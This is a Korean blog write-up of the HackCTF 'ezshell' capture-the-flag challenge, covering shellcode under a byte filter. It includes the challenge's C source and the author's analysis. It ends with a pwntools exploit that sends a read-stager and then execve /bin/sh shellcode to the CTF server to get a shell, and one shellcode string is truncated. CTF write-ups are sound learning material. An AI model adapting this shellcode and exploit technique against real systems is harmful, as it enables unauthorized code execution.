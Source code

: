 ```yaml
---
layout: post
title:  "HacCTF ezshell write-up"
date:   2020-03-22 19:45:55
image:  hackctf_ezshell.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] ezshell

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled.png)

Full RELRO와 카나리가 걸려있다. 또한 PIE도 걸려있는데 현재 RWX가 있는걸로 봐서 쉘코드 관련한 문제로 보인다.



**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%201.png)

바이너리를 실행시키면 처음에 입력을 받고 어떠한 값이 출력된다. 



**3) 코드흐름 파악**

    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    	
    void Init(void)
    {
    	setvbuf(stdin, 0, 2, 0);
    	setvbuf(stdout, 0, 2, 0);
    	setvbuf(stderr, 0, 2, 0);
    }
    
    int main(void)
    {
    	Init();
    
    	char result[100] = "\x0F\x05\x48\x31\xED\x48\x31\xE4\x48\x31\xC0\x48\x31\xDB\x48\x31\xC9\x48\x31\xD2\x48\x31\xF6\x48\x31\xFF\x4D\x31\xC0\x4D\x31\xC9\x4D\x31\xD2\x4D\x31\xDB\x4D\x31\xE4\x4D\x31\xED\x4D\x31\xF6\x4D\x31\xFF";
    	char shellcode[30];
    	char filter[4] = {'\xb0', '\x3b', '\x0f', '\x05'};
    
    	read(0, shellcode, 30);
    	
    
    	for (int i = 0; i <= 3; i ++)
    	{
    		if (strchr(shellcode, filter[i]))
    		{
    			puts("filtering :)");
    			exit(1);
    		}		
    	}
    
    	for (int i = 0; i < 30; i++)
    	{
    		if (!shellcode[i])
    		{
    			puts("null :)");
    			exit(1);
    		}
    	}
    
    	strcat(result, shellcode);
    	(*(void (*)()) result + 2)();
    }

이번 문제는 아예 코드를 줘버렸다. 코드의 흐름은 다음과 같다.



1. result배열에 어떠한 값이 들어가 있다. 해당 값을 디스어셈블시키면 다음과 같다.

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%202.png)

    처음에 syscall이 보이고 그 뒤에는 모든 레지스터들을 다 xor 연산하여 0으로 초기화 시킨다

2. shellcode 배열에 입력을 받는다
3. -
4. 입력한 shellcode안에 filter 배열에 들어있는 값이 존재하는지 확인하고 존재하면 filtering: 문자열이 출력되면서 종료된다.

    여기서 필터의 개수는 총 4개로서 \x0f\x05는 syscall을 뜻하고, \3b는 59로서 execve syscall을 할때 필요한 rax값이다. /xb0은 잘모르겠다

5. 그다음 또 반복문을 돌면서 입력한 shellcode 배열에 널값이 존재하는지 확인하고 있으면 종료된다.
6. 만약 shellcode 배열이 필터에 걸리지 않고 널바이트가 없다면, result+2 즉 syscall 그다음을 호출한다.





### 2. 접근방법

---

쉘코드를 작성해야한다. 길이제한은 30바이트로 저번 Unexploitable#4 문제에서 간단한 쉘코드를 만들었기 때문에 이를 참조하여 필터에 걸리지 않는 쉘코드를 짤것이다.

내가 작성한 쉘코드는 다음과 같다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%203.png)

pwntools 의 asm기능을 이용하여 간단하게 구현하였다.



**시나리오**

1. syscall로 read함수를 호출하여 일반 인터넷에 있는 23바이트? 짜리 쉘코드를 삽입한다
2. jmp 로 쉘코드를 실행한다!

- **mov rsp, QWORD PTR fs:[rbx];**

    result 배열에 들어있는 쉘코드 때문에 rsp가 0이다. 따라서 위 코드를 진행해야 push나 pop 같은 명령어를 사용가능하다.

- **lea rsi, [rip-1];**

    현재 rip의 주소를 rsi에 복사를 한다. 단, 그냥 rip 이렇게 하면 널값이 들어가므로 -1 연산을 통해 널값을 없앤다. 즉 rsi에 실제 쉘코드가 들어갈 주소가 들어간다.

- **mov dx, 0xffff;**

    read함수의 입력 사이즈를 위해 삽입하였다.

- **jmp 0xffffffffffffffbb+5**

    현재 syscall 위치로 가야한다. 따라서 상대주소를 줘야하므로, 

    => "목적지 주소(syscall 위치) - 현 rip주소 - 5" 를 계산하여서 입력을 주면된다.

    근데 그냥 이렇게 jmp ~ 입력하면 에러가 난다. 따라서 위 사진처럼 입력해줘야한다.

    (vma는 base주소라고 생각하면 됨.)

    [jmp, call instruction 주소 계산](http://umbum.tistory.com/102)

사실 이렇게 syscall 위치의 상대주소를 구해도 실제 디버깅 해보면 틀리게 나온다. 따라서 직접 디버깅하면서 확인한 경과 위 공식?에서 +5를 해야지 실제 syscall 주소가 들어간다.





### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.arch="amd64"
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3036)
    #p=process("./ezshell")
    #gdb.attach(p,'code\nb *0xb92+$code\n')
    
    shell="mov rsp,QWORD PTR fs:[rbx];"
    shell+="lea rsi,[rip-1];"
    shell+="mov dx,0xffff;"
    shell=asm(shell)
    shell+=asm('jmp '+hex(0xFFFFFFFFFFFFFFBB+5), vma=0x1, arch='amd64',os='linux')
    shell=shell.ljust(30,'\xcc')
    log.info(len(shell))
    log.info(shell)
    p.send(shell)
    shell2 = "\x90"*0x100
    shell2 +="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x$
    pause()
    p.sendline(shell2)
    p.interactive()





### 4. 몰랐던 개념

---

- 쉘코드 관련 문제는 처음 풀어봤다. pzshell을 통해 복습겸 다시 익혀야겠다.
- 추가적으로 위 익스코드에서 처음에 sendline으로 보내면 다음 read가 개행떄문에 씹힌다. 따라서 send로 보내야한다